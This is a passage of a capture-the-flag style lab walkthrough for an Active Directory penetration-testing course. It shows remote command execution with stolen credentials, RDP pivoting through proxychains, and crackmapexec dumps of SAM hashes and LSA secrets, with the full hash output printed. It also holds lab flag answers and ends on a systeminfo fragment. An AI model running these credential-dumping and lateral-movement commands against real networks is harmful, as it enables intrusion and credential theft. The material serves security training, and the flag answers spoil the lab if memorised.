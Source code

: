 PS C:\windows\system32\inetsrv> Invoke-Command -computername MS01 -credential $cred -ScriptBlock{hostname; whoami; type C:\Users\Administrator\Desktop\flag.txt}

MS01

inlanefreight\svc_sql

spn$_r0ast1ng_on_@n_0p3n_f1re

MS01 can be accessed via RDP through proxychains too. First, configure Chisel on attack host and foothold, then:

┌──(kali㉿kali)-[~]

└─$ proxychains xfreerdp /v:172.16.6.50 /u:svc_sql /p:'lucky7' /dynamic-resolution /drive:linux,/home/kali/Transfer

**Answer:** `**spn$_r0ast1ng_on_@n_0p3n_f1re**`

### 

5. Find cleartext credentials for another domain user. Submit the username as your answer.[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/active-directory-enumeration-and-attacks/labs-skills-assessment#5.-find-cleartext-credentials-for-another-domain-user.-submit-the-username-as-your-answer.)

┌──(kali㉿kali)-[~]

└─$ proxychains crackmapexec smb 172.16.6.50 -u svc_sql -p 'lucky7' --sam

SMB 172.16.6.50 445 MS01 [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)

SMB 172.16.6.50 445 MS01 [+] INLANEFREIGHT.LOCAL\svc_sql:lucky7 (Pwn3d!)

SMB 172.16.6.50 445 MS01 [+] Dumping SAM hashes

SMB 172.16.6.50 445 MS01 Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdaffbfe64f1fc646a3353be1c2c3c99:::

SMB 172.16.6.50 445 MS01 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

SMB 172.16.6.50 445 MS01 DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

SMB 172.16.6.50 445 MS01 WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::

┌──(kali㉿kali)-[~]

└─$ proxychains crackmapexec smb 172.16.6.50 -u svc_sql -p 'lucky7' --lsa

SMB 172.16.6.50 445 MS01 [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)

SMB 172.16.6.50 445 MS01 [+] INLANEFREIGHT.LOCAL\svc_sql:lucky7 (Pwn3d!)

SMB 172.16.6.50 445 MS01 [+] Dumping LSA secrets

SMB 172.16.6.50 445 MS01 INLANEFREIGHT.LOCAL/tpetty:$DCC2$10240#tpetty#685decd67a67f5b6e45a182ed076d801


[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[01]: KB4578966
[02]: KB4464455
[01]: vmxnet3 Ethernet Adapter
[01]: 10.129.139.169
[02]: fe80::208f:25d9:3c7c:d424
[03]: dead:beef::208f:25d9:3c7c:d424
[04]: dead:beef::11
[02]: vmxnet3 Ethernet Adapter
[01]: 172.16.6.100
[02]: fe80::f8c8:c134:4fe9:c4b0